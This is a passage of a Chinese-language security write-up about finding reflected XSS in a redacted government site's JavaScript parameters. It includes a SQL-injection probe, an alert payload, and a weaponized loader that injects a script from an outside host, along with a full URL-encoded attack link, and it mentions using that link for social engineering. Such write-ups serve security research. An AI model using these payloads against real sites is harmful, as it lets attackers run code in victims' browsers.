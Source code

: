 ```
' or 1=1
```

  
一些 XSS 等等。  
  
与此同时，我的一个朋友也在测试同一个页面，他在特定的 GET 参数中发现了一个 XSS 漏洞。他使用了payload   

```
/?no_welcome=a'-alert(1)//
```

  
，乍一看有点奇怪，但当我查看源代码时，一切都说得通了。  
  
此参数的值被用作 JavaScript 代码中变量的值。攻击者可以脱离该变量的上下文，直接从 URL 中写入任意 JavaScript 代码。我发现许多其他变量也存在这种行为。  
  
![img](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMEBKcGQvP8V1FiaY8HcTVuus3n0AxELeTe6ffewKmuyXo8icEQzvwsvGvzsM3lic7H9A1KLgsu4hUWHg/640?wx_fmt=png&from=appmsg "")  
  
结果如下：  
  
![img](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMEBKcGQvP8V1FiaY8HcTVuusOuPr8hrNeyRibPrkXQtial6hk91teW2ru7JPIRrTfazVZHMMfkwRbJtw/640?wx_fmt=png&from=appmsg "")  
  
虽然我觉得这已经足够作为XSS的PoC了，但我决定更进一步，使用更通用的payload来武装攻击。这个payload可以编写复杂的恶意JavaScript例程，将其上传到某个地方，然后将其导入到HTML代码中。  

```
document.addEventListener ( 'DOMContentLoaded' , function(){var c = function   ( ) { a ( ) ; } ;   var s = document.createElement ( ' script' ) ; s.src   = ' https://n.0x7359.com/xss.js';s.onreadystatechange = c; document.body.appendChild ( s ) ; } ) ;
  
    

  


  
```

  
这将向https://n.0x7359.com/xss.js  
发出请求并执行以下代码。  

```
函数a () { 
   alert( '跨站警报' ); 
}
```

  
将其最小化并附加到 JavaScript 中，我们最终得到如下结果：  

```
vis.target.gov/REDACTED/?AutoRefreshInterval=%27;document.addEventListener(%27DOMContentLoaded%27,%20function()%7bvar%20c%20=%20function()%7ba();%7d;var%20s%20=%20document.createElement(%27script%27);s.src%20=%20%27https://n.0x7359.com/xss.js%27;s.onreadystatechange%20=%20c;document.body.appendChild(s);%7d);//
```

  
最终结果是：  
  
![img](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMEBKcGQvP8V1FiaY8HcTVuuseLe910c798Shv2EKO6ibudm0Lruda9gdGFTMggXHCYtkDSZVcmGc7ZA/640?wx_fmt=png&from=appmsg "")  
  
攻击者随后可以在社会工程攻击中使用此链接，完全控制在目标浏览器上运行的 JavaScript 代码，并能够实时更改它。  
  
  
  
  
  
